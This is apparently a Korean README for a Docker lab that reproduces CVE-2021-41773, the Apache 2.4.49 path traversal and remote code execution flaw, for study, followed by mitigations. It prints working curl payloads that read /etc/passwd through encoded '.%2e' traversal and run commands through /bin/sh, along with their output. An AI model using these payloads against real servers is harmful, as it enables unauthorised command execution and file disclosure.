





# CVE-2021-41773 - Apache HTTP Server 2.4.49 Path Traversal & RCE


| 항목 | 내용 |
|------|------|
| CVE | CVE-2021-41773 |
| Software | Apache HTTP Server |
| Version | 2.4.49 |
| Vulnerability | Path Traversal / RCE |
| Environment | Docker Compose |

## 1. 취약점 개요

CVE-2021-41773은 Apache HTTP Server 2.4.49에서 발생하는 Path Traversal 취약점이다.

Apache의 경로 정규화(Path Normalization) 과정에서 발생하는 오류를 이용하여 공격자는 DocumentRoot 외부의 파일에 접근할 수 있다.

또한 CGI(Common Gateway Interface)가 활성화된 환경에서는 `/bin/sh`를 호출하여 서버에서 임의의 명령을 실행할 수 있으며, 이를 통해 Remote Code Execution(RCE)까지 가능하다.

본 프로젝트는 Docker 기반의 취약 환경을 구축하고, CVE-2021-41773을 직접 재현하여 취약점의 동작 원리와 영향을 확인하는 것을 목표로 한다.

또한 동일한 환경을 다른 사용자가 쉽게 재현할 수 있도록 Docker Compose 기반의 실행 환경을 제공한다.

---

## 2. 취약점 분석

Apache HTTP Server 2.4.49에서는 URL Path Normalization 과정에서 입력값 검증이 올바르게 수행되지 않는다.

공격자는 URL 인코딩된 `.%2e`를 이용하여 상위 디렉터리로 이동할 수 있으며, DocumentRoot 외부의 파일에 접근할 수 있다.

```text
/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```

Apache는 URL 정규화 과정에서 `.%2e`를 상위 디렉터리(`..`)로 해석하게 되며, 그 결과 DocumentRoot 외부의 경로에 접근할 수 있다.

CGI 기능이 활성화된 환경에서는 `/bin/sh`와 같은 실행 파일을 호출할 수 있으며, 이를 이용하여 서버에서 임의의 명령을 실행할 수 있다.

본 실습에서는 취약점을 명확하게 재현하기 위해 Apache 설정을 변경하여 취약 환경을 구성하였다.

---

## 3. 환경 구성

| 항목 | 내용 |
|------|------|
| 운영체제 | Ubuntu 24.04 (WSL2) |
| 컨테이너 | Docker Desktop / Docker Compose |
| 웹 서버 | Apache HTTP Server 2.4.49 |
| 테스트 도구 | curl |

취약 환경은 Docker Compose를 이용하여 실행한다.

```bash
docker compose up --build
```

실행이 완료되면 Apache HTTP Server 2.4.49 컨테이너가 생성되고 8888 포트로 서비스된다.

*그림 1. Docker Compose를 이용한 취약 환경 실행*



브라우저에서 아래 주소로 접속하여 서버가 정상적으로 동작하는지 확인한다.

```text
http://localhost:8888
```

정상적으로 실행되면 아래와 같은 화면이 출력된다.

*그림 2. Apache HTTP Server 실행 화면*



---

## 4. 취약 조건

CVE-2021-41773은 Apache HTTP Server 2.4.49의 경로 정규화(Path Normalization) 오류로 인해 발생한다. 그러나 모든 Apache 2.4.49 환경에서 동일하게 악용되는 것은 아니며, 서버 설정에 따라 공격 성공 여부가 달라질 수 있다.

본 실습에서는 취약점을 안정적으로 재현하기 위해 `httpd.conf`를 수정하여 다음과 같은 설정을 적용하였다.

- `mod_cgid` 활성화
- `Options +ExecCGI` 적용
- CGI 디렉터리 접근 허용
- Apache HTTP Server 2.4.49 사용
- Docker 기반 독립 실행 환경 구성

> **참고**
>
>  실제 취약점의 원인은 Apache 2.4.49의 코드 결함이며, 본 프로젝트에서는 실습 환경에서 취약점을 안정적으로 재현하기 위해 필요한 설정을 적용하였다.

---

## 5. 재현 절차

### 1) Path Traversal 확인

다음 명령을 실행한다. (URL Path Normalization이 수행되지 않도록 `--path-as-is` 옵션을 사용한다.)

```bash
curl --path-as-is http://localhost:8888/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```

요청이 CGI 경로(`/cgi-bin`)를 통해 전달되므로 Apache는 `/etc/passwd`를 CGI 프로그램으로 실행하려고 시도한다. 실행 가능한 파일이 아니기 때문에 `500 Internal Server Error`가 반환된다.

*그림 3. Path Traversal 재현 결과*



---

### 2) Remote Code Execution 확인

다음 명령을 실행한다.

```bash
curl --path-as-is \
"http://localhost:8888/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" \
-d "echo Content-Type: text/plain; echo; id"
```

명령이 성공하면 `/bin/sh`가 실행되고, 전달한 `id` 명령이 Apache 프로세스 권한으로 수행된다.

*그림 4. Remote Code Execution 재현 결과*



---

## 6. 실행 결과

PoC 실행 결과 다음과 같이 출력되는 것을 확인하였다.

```text
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

이는 컨테이너 내부에서 `id` 명령이 Apache 웹 서버 프로세스 권한(`daemon`)으로 성공적으로 실행되었음을 의미한다.

이를 통해 CGI와 Path Traversal을 이용한 Remote Code Execution이 가능함을 확인하였다.

또한 Apache 로그에서도 `/bin/sh` 요청이 정상적으로 처리된 것을 확인하였다.

*그림 5. Apache 서버 로그*



이를 통해 CVE-2021-41773의 Path Traversal과 CGI를 이용한 Remote Code Execution이 성공적으로 재현되었음을 확인하였다.

---

## 7. 대응 방안

CVE-2021-41773에 대응하기 위한 방법은 다음과 같다.

- Apache HTTP Server를 2.4.51 이상으로 업데이트한다.
- 불필요한 CGI 기능은 비활성화한다.
- 최소 권한 원칙을 적용한다.
- DocumentRoot 외부 접근을 허용하지 않는다.
- 최신 보안 패치를 지속적으로 적용한다.

---

## 8. 참고 자료

- [CVE Record - CVE-2021-41773](https://www.cve.org/CVERecord?id=CVE-2021-41773)
- [NVD - CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)
- [Apache HTTP Server Security Advisory](https://httpd.apache.org/security/vulnerabilities_24.html)
- [Apache HTTP Server Documentation](https://httpd.apache.org/docs/current/)

---

## 9. 결론

본 프로젝트에서는 Docker 기반의 Apache HTTP Server 2.4.49 환경을 구축하고, CVE-2021-41773의 Path Traversal 및 Remote Code Execution을 성공적으로 재현하였다.

취약점의 발생 원인과 동작 과정을 확인하였으며, Docker Compose를 이용하여 동일한 환경을 쉽게 재현할 수 있도록 구성하였다.
